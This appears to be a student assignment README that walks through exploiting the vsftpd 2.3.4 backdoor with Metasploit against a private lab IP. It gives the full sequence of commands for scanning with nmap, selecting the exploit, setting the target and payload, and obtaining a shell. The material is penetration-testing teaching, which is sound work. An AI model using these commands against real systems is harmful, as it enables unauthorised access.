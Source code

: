 # IS-IA-2

The Security Tool Used for the IS IA-2 IS MetaSploit


the youtube video: https://youtu.be/iUixhELjZxk 


commands

install Metasploit
sudo apt install metasploit-framework

Scan the tagret network using Nmap to find open ports 
nmap 192.168.0.119

Run metasploit
sudo msfconsole

search for the version to find a particular exploit
search vsftpd

run the exploit
use exploit/unix/ftp/vsftpd_234_backdoor
show options

adding IP to the remote hosts
set RHOSTS  192.168.0.119
show options

Set the payload
set payload cmd/unix/interact

Start the exploit
exploit

Check if we gained the access
whoami



